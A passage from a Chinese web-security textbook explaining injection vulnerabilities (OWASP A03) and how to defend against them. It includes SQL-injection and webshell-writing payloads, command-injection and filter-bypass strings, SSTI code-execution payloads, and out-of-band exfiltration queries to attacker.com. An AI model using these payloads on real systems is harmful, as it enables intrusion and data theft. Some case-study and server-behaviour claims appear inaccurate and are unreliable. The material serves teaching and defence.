




## 14.4 A03：注入（Injection）

### 14.4.1 定义与本质

注入攻击是指应用程序将不可信的用户输入直接拼接到解释器（Interpreter）的执行上下文中，导致输入被解析为代码或命令执行。这是Web安全领域历史最悠久、影响范围最广、危害程度最深的漏洞类别之一，自OWASP Top 10诞生以来始终位列前三。

注入攻击的本质可以用一句话概括：**数据与代码的边界被打破**。当应用程序无法正确区分"用户提交的数据"和"程序自身的代码/指令"时，攻击者就能通过精心构造的输入，让解释器将恶意数据当作合法指令执行。



在OWASP Top 10:2021中，注入（A03）的位置从2017版的第一位下降到第三位，但这并不意味着注入风险降低了——而是访问控制和加密类漏洞的增长更为显著。根据OWASP数据，仍有94%的应用经过了某种形式的注入漏洞测试，注入类漏洞在CVE数据库中的出现频率依然居高不下。

### 14.4.2 注入攻击的三要素

注入攻击成立需要同时满足三个条件，缺一不可：

| 要素 | 说明 | 典型表现 |
|------|------|----------|
| **不可信输入** | 用户能够控制提交的数据内容 | 表单字段、URL参数、HTTP头、Cookie、文件上传 |
| **解释执行** | 数据被传递给解释器当作指令解析 | SQL查询、OS命令、LDAP查询、XPath表达式、模板引擎 |
| **缺乏隔离** | 输入未经充分验证、转义或参数化处理 | 字符串拼接构建SQL、`eval()`执行用户输入、未转义的模板变量 |



理解这三要素至关重要，因为防御策略正是针对每一要素进行阻断：验证输入（消除不可信输入）、参数化查询（消除解释执行）、最小权限（限制执行后果）。

### 14.4.3 注入类型全景

注入攻击的分类取决于目标解释器的类型。以下是完整的注入类型图谱：



#### 14.4.3.1 SQL注入（SQL Injection）

SQL注入是最经典、最高频、危害最大的注入类型。攻击者通过在用户输入中嵌入SQL语句片段，改变原始SQL查询的语义，实现未授权的数据访问或操作。

**攻击原理**

假设应用程序有如下登录验证逻辑：

```sql
-- 原始查询
SELECT * FROM users WHERE username = '用户输入' AND password = '用户输入';
```

当攻击者在用户名字段输入 `admin' OR '1'='1' --` 时，拼接后的SQL变为：

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' --' AND password = '';
```

`--` 注释掉了密码验证部分，`'1'='1'` 永远为真，攻击者无需密码即可以admin身份登录。

**SQL注入子类型**

| 子类型 | 特征 | 适用场景 |
|--------|------|----------|
| **基于报错的注入** | 应用将数据库错误信息返回给客户端 | 开发/调试环境，错误信息未关闭 |
| **基于布尔的盲注** | 通过观察页面返回的True/False差异推断数据 | 无回显但页面有内容差异 |
| **基于时间的盲注** | 通过数据库延时函数（如`SLEEP()`）判断条件真假 | 无回显且页面无差异 |
| **联合查询注入** | 使用`UNION SELECT`将恶意查询结果合并到正常结果中 | 已知列数且有回显位置 |
| **堆叠查询注入** | 用分号分隔执行多条SQL语句 | 数据库驱动支持多语句执行（如MySQL+PHP的`mysqli_multi_query`） |
| **带外注入（OOB）** | 通过DNS请求或HTTP请求将数据外带 | 无直接回显且时间盲注不可靠时 |

**典型攻击载荷示例**

```sql
-- 1. 绕过登录认证
' OR '1'='1' --
' OR 1=1 --
admin'--

-- 2. UNION联合查询探测列数
' UNION SELECT NULL,NULL,NULL --
' UNION SELECT 1,2,3 --

-- 3. 提取数据库信息（MySQL）
' UNION SELECT 1,version(),database() --
' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database() --

-- 4. 基于时间的盲注
' AND IF(1=1,SLEEP(5),0) --
' AND (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END) --  -- PostgreSQL

-- 5. 堆叠查询+写入Webshell（MySQL，需FILE权限）
'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --
```

**SQL注入的危害层次**



#### 14.4.3.2 命令注入（Command Injection）

命令注入发生在应用程序将用户输入拼接到操作系统命令中执行时。与SQL注入针对数据库不同，命令注入直接在服务器操作系统层面执行任意命令。

**常见触发场景**

```python
# Python - 危险示例
import os
target = input("请输入要ping的IP: ")
os.system(f"ping -c 4 {target}")

# 攻击输入: 127.0.0.1; cat /etc/passwd
# 实际执行: ping -c 4 127.0.0.1; cat /etc/passwd
```

```php
// PHP - 危险示例
$filename = $_GET['file'];
$output = shell_exec("cat /uploads/" . $filename);

// 攻击输入: ; rm -rf /
// 实际执行: cat /uploads/ ; rm -rf /
```

**命令连接符与绕过技巧**

| 连接符 | 说明 | Linux | Windows |
|--------|------|-------|---------|
| `;` | 顺序执行多条命令 | ✅ | ✅ |
| `\|` | 管道，前一条命令的输出作为后一条的输入 | ✅ | ✅ |
| `\|\|` | 前一条失败时执行后一条 | ✅ | ✅ |
| `&&` | 前一条成功时执行后一条 | ✅ | ✅ |
| `` ` `` | 反引号，命令替换 | ✅ | ✅ |
| `$()` | 命令替换 | ✅ | ❌ |
| `%0a` | 换行符，可注入新命令 | ✅ | ✅ |

**绕过过滤的常用技巧**

```bash
# 空格绕过
cat${IFS}/etc/passwd
cat$IFS$9/etc/passwd
{cat,/etc/passwd}
cat</etc/passwd
cat%09/etc/passwd    # Tab字符

# 关键字绕过（黑名单过滤了cat）
/bin/ca? /etc/passwd       # 通配符
c'a't /etc/passwd           # 引号拼接
c"a"t /etc/passwd
cat /etc/pas??              # 通配符
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash  # Base64编码

# 长度限制绕过
>wget\
>test.com\
>sh a\
# 等价于 wget test.com;sh a
```

#### 14.4.3.3 NoSQL注入

NoSQL注入针对MongoDB、CouchDB等非关系型数据库。与SQL注入不同，NoSQL注入通常利用JSON查询语法和JavaScript执行能力。

**MongoDB注入示例**

```javascript
// 原始查询
db.users.find({ username: userInput, password: passwordInput });

// 攻击载荷 - 使用$gt操作符绕过认证
// userInput: {"$gt": ""}
// passwordInput: {"$gt": ""}
// 等价于: db.users.find({ username: {$gt: ""}, password: {$gt: ""} })
// 匹配所有记录
```

```javascript
// 基于JavaScript的注入（$where子句）
db.users.find({ $where: "this.username == '" + userInput + "'" });

// 攻击输入: ' || '1'=='1
// 变为: this.username == '' || '1'=='1'
// 永远为真
```

#### 14.4.3.4 LDAP注入

LDAP（轻量级目录访问协议）注入发生在应用程序将用户输入拼接到LDAP查询过滤器中时。

```python
# 危险代码
search_filter = f"(&(uid={username})(password={password}))"

# 攻击输入: username = "*)(uid=*))(|(uid=*", password = "任意值"
# 查询变为: (&(uid=*)(uid=*))(|(uid=*)(password=任意值))
# 匹配所有用户，绕过密码验证
```

**LDAP特殊字符**

| 字符 | 含义 | 处理方式 |
|------|------|----------|
| `*` | 通配符 | 转义为 `\2a` |
| `(` | 子查询开始 | 转义为 `\28` |
| `)` | 子查询结束 | 转义为 `\29` |
| `\` | 转义符 | 转义为 `\5c` |
| `NUL` | 空字节 | 转义为 `\00` |

#### 14.4.3.5 XPath注入

XPath注入针对使用XML文档存储数据的应用。当用户输入被拼接到XPath查询表达式中时，攻击者可以修改查询逻辑。

```python
# 原始XPath查询
query = f"//user[username/text()='{username}' and password/text()='{password}']"

# 攻击输入: username = "' or '1'='1", password = "' or '1'='1"
# 变为: //user[username/text()='' or '1'='1' and password/text()='' or '1'='1']
# 匹配所有用户节点
```

XPath注入的危害包括：读取整个XML文档结构、绕过认证、获取敏感数据。由于XPath语法比SQL更简单且没有类似"权限"的概念，一次成功的注入通常能获取全部数据。

#### 14.4.3.6 服务端模板注入（SSTI）

服务端模板注入（Server-Side Template Injection）发生在用户输入被直接嵌入服务端模板引擎的渲染上下文中。与XSS不同，SSTI的代码在服务端执行，可以导致远程代码执行（RCE）。

**常见模板引擎的攻击载荷**

```python
# Jinja2 (Python Flask)
{{config}}                           # 获取应用配置
{{config.items()}}                   # 遍历配置项
{{''.__class__.__mro__[2].__subclasses__()}}  # 获取所有子类
{{''.__class__.__mro__[2].__subclasses__()[INDEX]('id',shell=True,stdout=-1).communicate()}}  # RCE

# Twig (PHP)
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

# Freemarker (Java)
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}

# Velocity (Java)
#set($str=$class.forName("java.lang.Runtime"))
#set($chr=$class.forName("java.lang.Character"))
#set($cmd=$str.getRuntime().exec("id"))
```

**检测SSTI的方法**

```text
# 插入数学表达式，观察是否被计算
{{7*7}}     → 返回49则存在SSTI（Jinja2/Twig）
${7*7}      → 返回49则存在SSTI（Freemarker/Velocity）
#{7*7}      → 返回49则存在SSTI（Ruby ERB）
<%= 7*7 %>  → 返回49则存在SSTI（ERB）
```

#### 14.4.3.7 XSS跨站脚本

虽然XSS的执行环境是客户端浏览器（不是服务端解释器），但OWASP Top 10:2021将其归入注入类别（A03），因为本质也是将不可信数据注入到HTML/JavaScript上下文中执行。

**XSS三种类型**

| 类型 | 持久性 | 存储位置 | 触发方式 |
|------|--------|----------|----------|
| **反射型XSS** | 非持久 | URL参数中 | 用户点击恶意链接 |
| **存储型XSS** | 持久 | 数据库/文件中 | 用户访问包含恶意内容的页面 |
| **DOM型XSS** | 非持久 | 仅在客户端DOM中 | 前端JavaScript处理URL/DOM数据时 |

```html
<!-- 反射型XSS示例 -->
<script>alert(document.cookie)</script>

<svg onload="alert(document.cookie)">

<!-- DOM型XSS示例 -->
<!-- URL: http://example.com/page# -->
<script>
  document.getElementById("output").innerHTML = location.hash.substring(1);
</script>
```

#### 14.4.3.8 CRLF注入与HTTP头注入

CRLF注入利用回车换行符（`\r\n`，即`%0d%0a`）在HTTP响应头中注入额外的头信息，或在日志中伪造日志条目。

```text
# HTTP响应拆分（Response Splitting）
/search?q=hello%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script>

# 日志注入
# 在用户名字段输入: admin\nINFO: User admin logged in successfully
# 伪造审计日志记录
```

### 14.4.4 注入漏洞检测方法

#### 14.4.4.1 手动检测

**SQL注入手动测试流程**

```mermaid
graph TB
    A["识别输入点<br/>表单/URL/Cookie/HTTP头"] --> B["注入特殊字符<br/>' \" ; -- /* )"]
    B --> C{"观察响应差异"}
    C -->|"返回SQL错误"| D["报错型注入<br/>进一步利用报错函数"]
    C -->|"页面正常/异常"| E["布尔盲注<br/>构造True/False条件"]
    C -->|"无明显差异"| F["时间盲注<br/>使用SLEEP/WAITFOR"]
    C -->|"有数据回显"| G["联合查询注入<br/>UNION SELECT"]
```

**注入探测关键字符**

```text
'        → 单引号，SQL字符串终止
"        → 双引号
;        → 语句分隔符
--       → SQL注释
/*       → SQL块注释开始
)        → 关闭子查询
OR 1=1   → 永真条件
SLEEP(5) → 时间延迟
```

#### 14.4.4.2 自动化检测工具

| 工具 | 类型 | 擅长领域 | 特点 |
|------|------|----------|------|
| **SQLMap** | 命令行 | SQL注入 | 自动检测+利用，支持多种数据库 |
| **Burp Suite** | 代理平台 | 所有Web漏洞 | Intruder模块支持自定义载荷爆破 |
| **OWASP ZAP** | 代理平台 | 所有Web漏洞 | 开源免费，主动/被动扫描 |
| **Nessus** | 漏洞扫描器 | 网络+Web漏洞 | 企业级，插件丰富 |
| **Commix** | 命令行 | 命令注入 | 专注命令注入检测与利用 |
| **tplmap** | 命令行 | SSTI | 模板注入检测与利用 |
| **sqlninja** | 命令行 | SQL注入 | 专注MSSQL+Microsoft SQL Server |

### 14.4.5 防御策略

注入漏洞的防御需要在多个层面建立纵深防御体系，不能依赖单一措施。

#### 14.4.5.1 核心防御：参数化查询（Parameterized Query）

参数化查询是防御SQL注入的最根本、最有效手段。它将SQL语句结构与用户数据严格分离，确保数据永远不会被解释为SQL指令。

```python
# ✅ 正确：参数化查询（Python + psycopg2）
cursor.execute(
    "SELECT * FROM users WHERE username = %s AND password = %s",
    (username, password)
)

# ❌ 错误：字符串拼接
cursor.execute(f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'")
```

```java
// ✅ 正确：PreparedStatement（Java）
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM users WHERE username = ? AND password = ?"
);
stmt.setString(1, username);
stmt.setString(2, password);

// ❌ 错误：Statement拼接
Statement stmt = conn.createStatement();
stmt.executeQuery("SELECT * FROM users WHERE username = '" + username + "'");
```

```php
// ✅ 正确：PDO预处理（PHP）
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute(['username' => $username]);

// ❌ 错误：直接拼接
$result = mysql_query("SELECT * FROM users WHERE username = '$username'");
```

**各语言/框架的参数化查询支持**

| 语言 | 推荐方式 | 备注 |
|------|----------|------|
| Python | `psycopg2`/`pymysql` 参数化、SQLAlchemy ORM | 避免使用`execute(f"...")` |
| Java | `PreparedStatement`、JPA/Hibernate | 避免使用`Statement`拼接 |
| PHP | PDO预处理、Eloquent ORM | 避免使用`mysql_query`拼接 |
| Node.js | `mysql2`/`pg` 参数化、Sequelize/Knex | 避免使用模板字符串拼接SQL |
| Go | `database/sql` 的 `Prepare`/`Query` | 避免使用`fmt.Sprintf`拼接 |
| C# | `SqlParameter`、Entity Framework | 避免使用字符串拼接构建SQL |

#### 14.4.5.2 输入验证（Input Validation）

输入验证是参数化查询的补充防线，不是替代方案。采用白名单策略，只接受符合预期格式的输入。

```python
import re
from ipaddress import ip_address, AddressValueError

# 白名单验证IP地址
def validate_ip(ip_str):
    try:
        ip_address(ip_str)
        return True
    except AddressValueError:
        return False

# 白名单验证用户名（只允许字母数字下划线，3-20位）
def validate_username(username):
    return bool(re.match(r'^[a-zA-Z0-9_]{3,20}$', username))
```

**输入验证原则**

1. **白名单优于黑名单**：定义"允许什么"比定义"拒绝什么"更安全
2. **服务端验证必不可少**：客户端验证可以被绕过
3. **验证数据类型和格式**：数字就应该只接受数字
4. **限制输入长度**：减少攻击面
5. **验证数据范围**：数值应在合理范围内

#### 14.4.5.3 输出编码（Output Encoding）

输出编码是防御XSS的关键措施。根据输出上下文选择正确的编码方式。

| 输出上下文 | 编码方式 | 示例 |
|-----------|----------|------|
| HTML正文 | HTML实体编码 | `<` → `&lt;`，`>` → `&gt;` |
| HTML属性 | HTML属性编码 | `"` → `&quot;`，`'` → `&#x27;` |
| JavaScript | JavaScript编码 | `<` → `\u003c`，`>` → `\u003e` |
| URL参数 | URL编码 | 空格→`%20`，`&`→`%26` |
| CSS | CSS编码 | 使用`\`+Unicode码点 |
| JSON | JSON编码 | 使用`json.dumps()`自动转义 |

#### 14.4.5.4 最小权限原则

即使防御被突破，最小权限也能限制损害范围。

```sql
-- 数据库用户权限最小化
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT, UPDATE ON mydb.users TO 'webapp'@'localhost';
-- 不授予DELETE、DROP、FILE、SUPER等危险权限
```

```bash
# 命令注入防御：避免以root运行应用
# Web应用进程应使用低权限用户运行
www-data ALL=(ALL) NOPASSWD: /usr/bin/very-specific-command  # 限制sudo范围
```

#### 14.4.5.5 WAF（Web应用防火墙）

WAF作为额外的防御层，可以在应用层之前拦截明显的注入攻击。

```nginx
# Nginx ModSecurity配置示例
SecRuleEngine On
SecRule ARGS "@detectSQLi" "id:1,phase:2,deny,status:403,msg:'SQL Injection Detected'"
SecRule ARGS "@detectXSS" "id:2,phase:2,deny,status:403,msg:'XSS Detected'"
```

**WAF的局限性**：WAF是辅助手段，不能替代代码层面的防御。WAF规则可以被绕过（编码变换、分块传输、HTTP参数污染等），不能作为唯一的防御措施。

#### 14.4.5.6 安全开发框架与ORM

使用成熟的安全框架和ORM可以从根本上减少注入风险。

```python
# Django ORM（自动参数化）
from django.contrib.auth import authenticate
user = authenticate(username=username, password=password)

# SQLAlchemy ORM
from sqlalchemy import select
query = select(User).where(User.username == username)
```

```ruby
# Ruby on Rails ActiveRecord（自动参数化）
User.where(username: params[:username])
```

### 14.4.6 真实案例分析

#### 案例一：Heartbleed与SQL注入的连锁反应（2014年）

虽然Heartbleed本身是加密漏洞，但许多系统在修复Heartbleed后发现数据库已被SQL注入攻击渗透。攻击者利用SQL注入获取了数据库中的用户凭证，再通过Heartbleed获取服务器私钥，形成组合攻击链。

#### 案例二：索尼影业数据泄露（2014年）

攻击者利用SQL注入等技术渗透了索尼影业的内部网络，泄露了大量未公开电影剧本、高管邮件、员工个人信息等敏感数据，造成超过1亿美元的经济损失。

#### 案例三：British Airways罚款事件（2018年）

攻击者通过Magecart注入攻击（在支付页面注入恶意JavaScript脚本），窃取了约38万笔交易的支付卡信息。英国ICO开出2000万英镑罚款。这是XSS/注入攻击导致巨额监管处罚的典型案例。

#### 案例四：Log4Shell（2021年）

Apache Log4j2中的JNDI注入漏洞（CVE-2021-44228），影响全球约42%的企业Java应用。攻击者通过日志消息中的`${jndi:ldap://attacker.com/exploit}`表达式，触发JNDI查找并执行远程代码。该漏洞影响之广、利用之简单，使其被评为CVSS 10.0的最高严重级别。

### 14.4.7 高级主题与进阶

#### 14.4.7.1 二次注入（Second-Order Injection）

二次注入是指恶意输入先被存储到数据库中（此时可能经过了转义），后续在另一个查询中被取出并直接拼接使用时触发注入。

```python
# 第一步：注册用户，用户名经过转义后安全存入数据库
# 用户名: admin'--
# 存入数据库: admin'--（转义后的值）

# 第二步：另一个功能从数据库读取用户名并拼接到SQL
cursor.execute(f"UPDATE users SET role='user' WHERE username='{db_username}'")
# 拼接后: UPDATE users SET role='user' WHERE username='admin'--'
# admin的角色被修改
```

防御要点：**每次从数据库取出数据用于SQL查询时，也必须使用参数化查询**。不能因为数据"来自数据库"就认为它是可信的。

#### 14.4.7.2 HTTP参数污染（HPP）

HTTP参数污染利用Web服务器对同名参数处理方式的差异来绕过WAF或应用层过滤。

```text
# 原始请求
GET /search?q=innocent&q=' OR '1'='1

# WAF看到第一个参数q=innocent，认为安全
# 应用服务器（如Apache）取最后一个参数，实际使用q=' OR '1'='1
# 或应用服务器（如PHP）将两个值合并为数组

# 不同服务器的处理差异
Apache/PHP    → q = ['innocent', "' OR '1'='1"]  (数组)
IIS/ASP.NET  → q = ' OR '1'='1                   (最后一个)
Tomcat        → q = ' OR '1'='1                   (最后一个)
```

#### 14.4.7.3 ORM注入

ORM（对象关系映射）框架虽然在大多数情况下能防止SQL注入，但在使用原生查询或不当拼接时仍可能存在风险。

```python
# Django ORM - 安全
User.objects.filter(username=username)  # ✅ 自动参数化

# Django ORM - 危险：使用extra()或raw()
User.objects.raw(f"SELECT * FROM users WHERE username = '{username}'")  # ❌ 危险
User.objects.extra(where=[f"username = '{username}'"])  # ❌ 危险

# SQLAlchemy - 安全
session.query(User).filter(User.username == username)  # ✅ 自动参数化

# SQLAlchemy - 危险：使用text()拼接
session.execute(text(f"SELECT * FROM users WHERE username = '{username}'"))  # ❌ 危险
```

#### 14.4.7.4 带外数据外带（Out-of-Band Exfiltration）

当应用没有直接回显时，攻击者可以通过数据库发起外部请求来外带数据。

```sql
-- MySQL: 通过DNS外带数据
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\file'));

-- Oracle: 通过HTTP外带数据
SELECT UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT username FROM users WHERE ROWNUM=1)) FROM dual;

-- MSSQL: 通过DNS外带数据
EXEC master..xp_dirtree '\\attacker.com\share';
```

### 14.4.8 常见误区与纠正

| 误区 | 纠正 |
|------|------|
| "用了存储过程就安全了" | 存储过程中如果使用动态SQL拼接，同样存在注入风险 |
| "WAF可以防住所有注入" | WAF规则可以被绕过，只能作为辅助防御层 |
| "黑名单过滤了特殊字符就安全了" | 黑名单几乎总会被绕过（编码、Unicode、大小写变换等） |
| "只有GET参数才有注入风险" | POST数据、Cookie、HTTP头、文件名等所有用户可控输入都是注入点 |
| "框架自动防注入，不需要额外关注" | 原生查询、`eval()`、动态模板等场景框架无法自动保护 |
| "XSS不重要，只是弹个框" | XSS可以窃取会话令牌、发起CSRF、篡改页面内容、植入挖矿脚本 |
| "NoSQL数据库不会有注入" | NoSQL注入同样存在，且利用方式与SQL注入有显著差异 |

### 14.4.9 合规与标准映射

| 标准/法规 | 与注入相关的条款 |
|-----------|-----------------|
| **PCI DSS 4.0** | Requirement 6.2.4：对所有用户输入进行注入防护 |
| **GDPR** | Article 32：实施适当的技术措施保障数据安全 |
| **NIST SP 800-53** | SI-10：信息输入验证与注入防护 |
| **ISO 27001:2022** | A.8.26：应用安全要求，含输入验证 |
| **CWE** | CWE-89(SQL注入)、CWE-78(命令注入)、CWE-79(XSS)、CWE-90(LDAP注入) |

### 14.4.10 本节小结

注入攻击是Web安全的"常青树"——从互联网早期至今，始终占据漏洞排行榜的前列。其根本原因是开发者未能将用户数据与程序代码/指令进行严格隔离。

防御注入的核心策略可以总结为"三板斧"：

1. **参数化查询**——从根本上消除数据被解释为代码的可能
2. **输入验证**——白名单策略，只接受符合预期格式的输入
3. **最小权限**——即使被突破，也限制可造成的损害

在此基础上，叠加输出编码、WAF、安全框架等措施形成纵深防御。记住：没有任何单一措施能够100%防御注入攻击，安全是一个持续的过程，需要在开发、测试、运维的每个环节都保持警惕。

***
